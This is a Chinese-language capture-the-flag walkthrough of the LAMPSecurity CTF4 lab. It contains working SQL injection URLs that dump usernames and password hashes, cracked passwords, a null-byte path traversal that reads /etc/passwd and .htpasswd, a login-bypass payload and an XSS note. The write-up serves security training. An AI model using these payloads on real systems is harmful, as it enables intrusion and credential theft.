 [https://www.vulnhub.com/entry/lampsecurity-ctf4,83/](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/)

# 初始操作

下载之后,打开靶机,检查靶机网卡,发现使用的是vm里面的专用网络

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718164649.png)

因此将Arch的网卡同样修改成专用网络(或者直接设置成双网卡),对子网进行扫描,确认靶机ip

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718165205.png)

靶机ip为`172.16.228.128`,对其进行详细扫描

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718165542.png)

`robots.txt`中显示

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

`/conf/`访问报错,`/restricted/`,`/mail/`,`/admin/`都需要登录 

`/sql/`目录可以直接查看,`/sql/db.sql`可以被直接访问,内容如下

```sql
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

使用[dirsearch](https://github.com/maurosoria/dirsearch)对网站进行目录扫描,得到`pages`目录可以直接查看

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718174307.png)

# sql注入1

进入`blog.php`,报错`Warning: mysql_fetch_row(): supplied argument is not a valid MySQL result resource in /var/www/html/pages/blog.php on line 9`,因此存在报错注入

将`index.html?page=blog&title=Blog&id=2`中的id进行修改,修改成`index.html?page=blog&title=Blog&id=2%27`,会发生报错

`index.html?page=blog&title=Blog&id=2 order by 6-- `会发生报错,说明一共有5个字段

`index.html?page=blog&title=Blog&id=20 union select null,group_concat(cast(schema_name as char)),null,null,null from information_schema.schemata--+`列出数据库的库名

`index.html?page=blog&title=Blog&id=20 union select null,group_concat(cast(table_name as char)),null,null,null from information_schema.tables where table_schema='ehks'--+`列出`ehks`的表

`index.html?page=blog&title=Blog&id=20 union select null,group_concat(cast(column_name as char)),null,null,null from information_schema.columns where table_name='user'--+`列出`ehks.user`的列

`index.html?page=blog&title=Blog&id=20 union select null,null,user_name,null,user_pass from user--+`列出用户名和密码(进行了hash)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210719220701.png)

密码长度与md5一致,猜测为md5,但不确定是否有加盐,[批量反查结果](https://www.somd5.com/batch.html)如下

```
02e823a15a392b5aa4ff4ccb9060fa68 ilike2surf
b46265f1e7faa3beab09db5c28739380 seventysixers
8f4743c04ed8e5f39166a81f26319bb5 Homesite
7c7bc9f465d86b8164686ebb5151a717 Sue1978
64d1f88b9b276aece4b0edcc25b7a434 pacman
9f3eb3087298ff21843cc4e013cf355f undone1
```

均可进入`/admin/`后台,测试同样可以作为ssh连接并提权到`root`

ssh连接可能会报错`no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`

解决方法:需要在`/etc/ssh/ssh_config`中添加`KexAlgorithms +diffie-hellman-group1-sha1`然后执行`sudo ssh-keygen -A`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210719220922.png)

# 路径穿越

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210718174307.png)

注意到url中的访问格式`index.html?page=blog&title=Blog&id=2`,推测其调用方式为`include($_GET[$page].'.php')`

而`Wappalyzer`的分析结果显示其php版本为5.1.2,因此存在00截断

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210719230917.png)

`index.html?page=../../../../../../../etc/passwd%00`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210719232639.png)

对`/restricted/.htaccess`进行读取,`index.html?page=../restricted/.htaccess%00`

```
AuthType Basic
AuthName "Restricted - authentication required"
AuthUserFile /var/www/html/restricted/.htpasswd
Require valid-user
```

对`/restricted/.htpasswd`进行读取,`index.html?page=../restricted/.htpasswd%00`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210720115742.png)

```
ghighland:8RkVRDjjkJhq6
pmoore:xHaymgB2KxbJU
jdurbin:DPdoXSwmSWpYo
sorzek:z/a8PtVaqxwWg
```

`.htpasswd`的加密方式:[https://httpd.apache.org/docs/current/misc/password_encryptions.html](https://httpd.apache.org/docs/current/misc/password_encryptions.html)


用[https://www.openwall.com/john/](https://www.openwall.com/john/)来进行破解

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210720143008.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210720143319.png)

# sql注入2

查看`admin/index.php`的网页源代码,发现其对输入用户名和密码的过滤写在了js中

```js
<script type="text/javascript">
function fixLogin() {
	var test=/[^a-zA-Z0-9]/g;
	document.login_form.username.value=document.login_form.username.value.replace(test, '');
	document.login_form.password.value=document.login_form.password.value.replace(test, '');
}
</script>
```

抓包修改即可,得到报错`select user_id from user where user_name=''' AND user_pass = md5(''')`,说明其闭合方式为`'`

传入`username=' or '1'='1&password=') or 1=1#`,其sql语句为`select user_id from user where user_name='' or '1'='1' AND user_pass = md5('') or 1=1#')`即可登录成功

在post blog界面存在`xss`攻击的可能,传入`</p>xxx<p>`,即可进行闭合,使其中的xxx内容得以执行

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20210720114516.png)
